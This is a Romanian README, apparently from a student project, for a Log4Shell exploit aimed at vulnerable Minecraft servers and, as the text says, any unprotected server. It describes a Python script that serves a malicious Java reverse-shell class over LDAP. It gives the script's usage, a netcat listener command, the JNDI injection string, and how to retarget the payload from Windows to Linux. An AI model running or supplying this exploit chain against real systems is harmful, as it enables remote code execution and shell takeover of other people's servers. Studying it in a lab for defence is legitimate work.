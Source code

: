 # Log4shell

## Descriere

Acest proiect exploateaza vulnerabilitatea Log4shell. Este destinat folosirii lui pentru a ataca un server vulnerabil de Minecraft, joc video foarte popular. Insa poate fi folosit pentru atacul oricarui server neprotejat de acest atac.

Proiectul este capabil sa initieze o conexiune de tip reverse shell.

## Dependinte

### Sistemul atacatorului

Proiectul este construit sa functioneze pe un sistem Kali Linux. Acesta are deja instalate urmatoarele programe necesare: Python3, Netcat, Git.

Pentru a instala Kali accesati [pagina oficiala](https://www.kali.org/docs/installation/hard-disk-install/) a softwareului.

In reproducerea atacului am folosit [Virtualbox](https://www.virtualbox.org/wiki/Downloads) pentru a virtualiza masina de Kali Linux. [Tutorial](https://www.kali.org/docs/virtualization/install-virtualbox-guest-vm/) 

In ambele scenarii de instalare a sistemului Kali trebuie asigurata conexiunea la retea cu masina dorita sa fie atacata.

### Sistemul atacatat

In fisiere se pot regasii pachetele Java vulnerabile pentru Windows si Linux(Debian). In functie de sistemul ales se descarca aplicatia respectiva (Fisierul .tar.gz pentru Debian, Fisiserul .exe pentru Windows).

Pentru versiunea Minecraft vulnerabila se recomanda descarcarea de pe [acest link](https://mcversions.net/download/1.8.8). Acest fisier .jar va fi executat pe masina vulnerabila dorita. [How to](https://help.minecraft.net/hc/en-us/articles/360058525452-How-to-Setup-a-Minecraft-Java-Edition-Server)

## Executarea exploitului

* Dupa ce se cloneza acest repository, se intra in folderul lui.

* Urmatoarea caseta explica cum trebuie executat scripul de Python:
```
usage: application.py [-h] [--ip IP] [--port PORT]
                      [--nume_clasa NUME_CLASA]

Un script care primește IP-ul, portul și numele clasei java. Usage: python3
application.py --ip <IP> --port <Port> --nume_clasa <Nume>

optional arguments:
  -h, --help            show this help message and exit
  --ip IP               Adresa IP a serveului LDAP
  --port PORT           Portul Netcat
  --nume_clasa NUME_CLASA Clasa java
```
IP - Ip-ul masinii atacate

Port - Portul unde este acultata conexiunea reverse shell (ex:9999)

Nume - Numele dorit pentru clasa java reverse shell generata

* Dupa rulare, va exista un server malitios valabil pentru a injecta clasa java ce initiaza o conexiune reverse shell.

### Observatii!

Scriptul este configurat pentru a ataca o masina Windows. Pentru atacul unei masini Linux trebuie schimbat in script programul Java. Se cauta in fisier "cmd.exe" si se inlocuieste cu "/bin/bash".

* Netcat

Pornirea unei instante separate netcat. Asculta pentru o conexiune reverse shell.
```
nc -lvnp 9999
```

Aici va fi gasita linia de comanda a sistemului atacata

## Injectare si rezultate

In consola, unde scriptul python ruleaza, se va afisa comanda necesara ce trebuie introdusa in sistemul vulnerabil. Cum ar trebuii sa arate comanda: `${jndi:ldap://{args.ip}:1389/{args.nume_clasa}}`

Pentru serverul de Minecraft trebuie sa ne conectam cu un client. Dupa conexiunea la sever a clientului se introduce comanda anterioara.

In final ar trebui sa avem o conexiune de terminal in fereastra cu Netcat.

## Autor

Gheorghita Dan 
@Universitatea Politehnica Timisoara